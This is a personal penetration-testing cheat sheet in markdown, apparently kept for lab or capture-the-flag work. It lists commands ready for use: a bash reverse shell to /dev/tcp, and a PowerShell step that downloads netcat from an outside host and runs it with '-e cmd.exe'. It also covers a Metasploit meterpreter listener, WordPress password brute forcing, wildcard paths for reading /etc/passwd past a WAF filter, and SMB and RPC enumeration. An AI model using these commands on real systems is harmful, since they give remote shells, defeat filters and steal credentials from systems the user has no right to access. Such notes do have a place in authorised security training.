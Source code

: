 ## Some commands which I used frequently 

### python command for bash 

```
python3 -c 'import pty; pty.spawn("/bin/bash")' 

python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/sh")' 
```

### nice script for reverse
```echo 'bash -i >& /dev/tcp/10.10.1.1/4447 0>&1' > shell.sh ; chmod +x shell.sh```

### spawn nicer shell 

```/usr/bin/script -qc /bin/bash /dev/null ```

### to get nobody removed in NFS share
```
sudo mount -t nfs -o nolock,nfsvers=3 10.1.1.72:/home home/

sudo mount -t cifs //< IP >/< SHARE > /tmp/share
```

### msf meterpreter shell listener
```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set payload windows/shell/reverse_tcp
```

### Search 
```
grep -rn './' -ie 'whatever' -B 2 -A 2

grep -rn './' -ie 'password' -B 2 -A 2
```

### nmap
```
Scan using default safe scripts         :	nmap -sV -sC 

Scan 100 most common ports (Fast)       :	nmap -F 
Scan using TCP connect                  :	nmap -sT 
Scan using TCP SYN scan (default)       :	nmap -sS 
Scan UDP ports                          :	nmap -sU -p 123,161,162 
Scan selected ports - ignore discovery	:	nmap -Pn -F 

Scan with a set of scripts (SMB)		    :	nmap -sV --script=smb* 
Scan with a set of scripts (FTP)		    :	nmap -sV --script=ftp* 

Scan with a set of scripts (smb os)		  :	nmap --script smb-os-discovery.nse -p445 

recon script VULN 						          :	nmap -Pn -p445 --script vuln -oN reconop.txt 
```

### SMB as used for msf
```
set SMB::AlwaysEncrypt false
set SMB::ProtocolVersion 1
```
### SMB as cmd
```
smbclient //1.1.1.4/ < folder name >
```
### smbmap
```
while read i; do smbmap -H $i 2>/dev/null; done < < Target IP File > | grep -v Finding | grep -v Authentication
```

### where command in win to search type of files
```
where /r c:\ proof.txt
```

### Wordpress brute force
```
wpscan --url http://10.11.1.251/wp --rua -P /usr/share/wordlists/rockyou.txt
```

### shell from powershell 
```
first upload nc

PS C:~> iwr http://10.10.14.19:7331/nc.exe -outf .\cute.exe
PS C:~> start-process -filepath .\cute.exe -argumentlist "10.10.14.9 4447 -e cmd.exe" -nonewwindow
```

### Dropbox links
```
ln -s < path of dropbox folder >  < link name > ~/data

ln -s /mnt/hgfs/2020/ ~/data
```

### file browser for jsp
```
java -jar file-browser.jar
```

### gcc
```
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542
gcc -Wl,--hash-style=both -o exp
```
### rpc commands
```
rpcclient -U "" -N 10.10.10.222

> enumdomusers
> enumdomgroups
> querygroup 0x200  // query groupname
> querygroupmem 0x200 // query group members
> queryuser 0x1f4 //query users
```

### /etc/passwd WAF restriction? Use these:
```
/e?c/?asswd
/e*c/*asswd
/??c/?asswd
/??c/?assw?
```
### paths for .bashrc
```
export PATH=$PATH:/home/kali/.local/bin/
export PATH=$PATH:~/data/tools/
export PATH=$PATH:~/data/exploits/
export PATH=$PATH:~/data/myscrs/
export PATH=$PATH:/usr/opt/

export HISTCONTROL=ignoreboth:erasedups
```
### paths for .zshrc
```
export PATH=Users/repos/ringojs/bin/ringo-admin:$PATH

export PATH=/home/kali/.local/bin/:$PATH
export PATH=~/data/tools/:$PATH
export PATH=~/data/exploits/:$PATH
export PATH=~/data/myscrs/:$PATH
export PATH=/usr/opt/:$PATH
```
### dhclient by default

```
sudo nano /etc/rc.local


#!/bin/bash
dhclient
exit 0


sudo chmod 755 /etc/rc.local

sudo systemctl enable rc-local

sudo systemctl restart rc-local

sudo systemctl status rc-local
```


---END
